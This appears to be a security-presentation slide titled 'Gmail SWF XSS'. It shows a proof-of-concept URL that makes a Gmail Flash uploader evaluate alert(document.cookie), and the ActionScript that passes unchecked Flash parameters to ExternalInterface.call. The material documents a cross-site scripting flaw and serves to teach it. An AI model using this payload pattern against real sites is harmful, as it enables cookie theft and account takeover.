

# Gmail SWF XSS
https://mail.google.com/mail/uploader/uploaderapi2.swf?apiInit=eval&apiId=alert(document.cookie)
var flashParams:* = LoaderInfo(this.root.loaderInfo).parameters;
API_ID = "apiId" in flashParams ? (String(flashParams.apiId)) : ("");
API_INIT = "apiInit" in flashParams ? (String(flashParams.apiInit)) : ("onUploaderApiReady");
...
if (ExternalInterface.available) {
    ExternalInterface.call(API_INIT, API_ID);
}